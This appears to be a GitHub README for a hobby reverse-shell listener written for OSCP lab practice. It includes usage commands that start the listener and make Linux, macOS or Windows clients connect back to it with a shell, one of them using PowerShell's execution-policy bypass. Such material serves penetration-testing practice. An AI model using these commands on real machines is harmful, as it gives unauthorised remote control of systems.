 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`

<img width="683" alt="Screenshot 2025-01-02 at 12 40 31 PM" src="https://github.com/user-attachments/assets/c7de903a-a981-4619-84a0-ecf7b7bea630" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
